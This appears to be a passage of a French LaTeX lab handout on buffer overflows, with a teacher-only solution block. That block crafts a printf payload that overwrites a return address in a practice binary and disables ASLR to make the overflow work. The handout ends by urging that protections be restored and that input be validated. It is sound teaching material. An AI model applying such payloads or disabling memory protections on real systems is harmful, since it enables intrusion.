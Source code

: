 \documentclass[french, 12pt]{article}%
\newif\ifPROF
\begin{document}
\ifPROF

\color{red}
\begin{lstlisting}[style=commande]
$ echo $(printf 'pppppppppp\xEF\xBE\xAD\xDE\xEF\xBE\xAD\xDE\xEF\xBE\xAD\xDE\x55\x62\x55\x56' )> injection.txt
$ cat injection.txt|  ./ex2                                                                                  
Debut
Fct utile 
Login Votre login est pppppppppp____ 
zsh: done                cat injection.txt | 
zsh: segmentation fault  ./ex2

$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space                                                      
[sudo] password for kali: 
0
                                                                                                                     
$ cat injection.txt|  ./ex2                            
Debut
Fct utile 
Login Votre login est pppppppppp_____
Achter c'est malin, reparer c'est cretin!
zsh: done                          cat injection.txt | 
zsh: illegal hardware instruction  ./ex2

\end{lstlisting}

\normalcolor
\fi



\paragraph{PENSER à réactiver  la protection} \   

\begin{lstlisting}[style=commande]
$ echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
\end{lstlisting}


\section{Conclusion}
Vous êtes des grands spécialiste sdu \textbf{Buffer overflow} et de \textbf{l'assembleur}. La finalité pour contrer cela : utiliser toujours des fonctions qui analyse les données de l'utilisateur et ne jamais mettre des mots de passe en claire dans un exécutable. 

\newpage
\appendix
\section{Code source ex1}
\label{lblEx1}
\end{document}
